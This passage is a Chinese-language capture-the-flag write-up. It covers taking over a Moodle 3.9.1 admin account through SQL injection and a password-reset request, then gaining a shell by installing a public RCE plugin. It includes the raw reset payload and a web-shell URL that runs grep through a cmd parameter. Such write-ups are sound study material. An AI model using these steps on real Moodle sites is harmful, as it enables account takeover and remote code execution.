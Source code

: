 手动修改密码后登录，本地环境成功登录admin

![image-20220802213303997](https://tuchuang.huamang.xyz/img/image-20220802213303997.png)

然后在history里面找到完整的payload，不过这个sesskey是有时限的，所以还是手改就好

```
token=Lk7GF0p9gAinTlkPPyMA4ZJ9Hc6v6Fly&sesskey=h9zVdXkSLf&_qf__login_set_password_form=1&username=admin&password=Admin%40123&password2=Admin%40123&submitbutton=%E4%BF%9D%E5%AD%98%E6%9B%B4%E6%94%B9
```

然后到远程来打，首先sql注入拿到管理员的邮箱，这里找到的是admin@localhost.com

![image-20220802213416029](https://tuchuang.huamang.xyz/img/image-20220802213416029.png)

然后发包修改免密进入到后台

![image-20220802213430881](https://tuchuang.huamang.xyz/img/image-20220802213430881.png)

这个moodle版本是3.9.1，后台是可以getshell的，这里通过加载一个插件去getshell

我用的现成的

https://github.com/HoangKien1020/Moodle_RCE

安装这个rce插件即可

![image-20220802213443651](https://tuchuang.huamang.xyz/img/image-20220802213443651.png)

然后find找flag即可

```
http://47.105.52.19:8888/blocks/rce/lang/en/block_rce.php?cmd=grep -r 'flag{.*}' /etc
```

![image-20220802213503580](https://tuchuang.huamang.xyz/img/image-20220802213503580.png)

